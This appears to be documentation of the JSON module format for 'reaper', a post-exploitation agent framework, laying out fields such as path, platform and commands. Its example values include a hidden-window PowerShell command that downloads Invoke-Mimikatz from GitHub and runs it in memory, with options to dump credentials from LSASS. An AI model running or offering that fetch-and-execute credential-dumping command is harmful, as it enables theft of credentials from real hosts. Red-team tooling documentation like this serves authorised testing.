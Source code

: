 # reaper Module
Modules are used to perform a set of pre-defined actions or execute a
program on an agent. The modules are described using JavaScript Object
Notation (JSON). Modules will be stored in `platform/arch/language/type`
 directories. Every module _must_ have the `base` object and _may_ have
 additional objects. Examples of the module structures can be found in
 the `data/modules/templates` directory. All keys used when describing a
 module will be lowercase (i.e. name and NOT Name).

## Base
The `base` module is required and is the lowest level of describing a
module and its function.


 Name   | Type  | Description | Example
 ---    | ---   | ---   | ---
 name   | string | The name of the module | "name": "MyModuleName"
 author | array of strings  | The names of the people that created the reaper module | "author": ["Russel Van Tuyl (@Ne0ndog)"]
 credits | array of strings | A list of people to credit for underlying tools or techniques | "credits": ["Will Schroeder (@harmj0y)"]
 path   | array of strings | The file path to the module| "path": ["C", "windows", "system32"]
 platform   | string | The target platform the module can run on | "platform": "linux"
 arch   | string | The target architecture the module can run on | "arch": "x64"
 lang   | string | The target language the module leverages | "lang": "powershell" or "lang": "bash"
 privilege | bool | Does the module require elevated privileges? | "privilege": true
 notes | string | Miscelaneous notes about the module | "notes": "This module doesn't work well on Ubuntu 14.04"
 remote | string | The remote path where the script associated with the module can be found | "remote": "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"
 local | array of strings | The local file system path where the script associated with the module can be found | "local": ["data", "src", "PowerSploit", "Exfiltration", "Invoke-Mimikatz.ps1"]
 options | array of objects | The configurable options for the module | "options": [{"name": "DumpCreds", "value": "true", "required": false, "description":"[Switch]Use mimikatz to dump credentials out of LSASS."}]
 description | string | A description of the module and its function | "description": "his script leverages Mimikatz 2.0 and Invoke-ReflectivePEInjection to reflectively load Mimikatz completely in memory."
 commands | array of strings | A list of the commands to be executed on the host when running the script | "commands": ["powershell.exe", "-nop", "-w", "0", "\"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');","Invoke-Mimikatz", "{{DumpCreds.Flag}}", "{{DumpCerts.Flag}}", "{{Command}}", "{{ComputerName}}","\""]


### Remote vs Local
When the module leverages a script, it can be accessed with _either_ the
 `local` or `remote` values of the base module. The `local` specifies
 the file path on the server where the script can be found. reaper _DOES
 NOT_ ship with scripts. However, they should be copied to the
 `data/source` directory using something like Git. For example, you move
 into the `data/source` direct and do a
 `git clone https://github.com/PowerShellMafia/PowerSploit.git`. When
the `local` source is used, the script is uploaded to the target from
the server. When the `remote` source is used, the script is downloaded
from that location to the target.
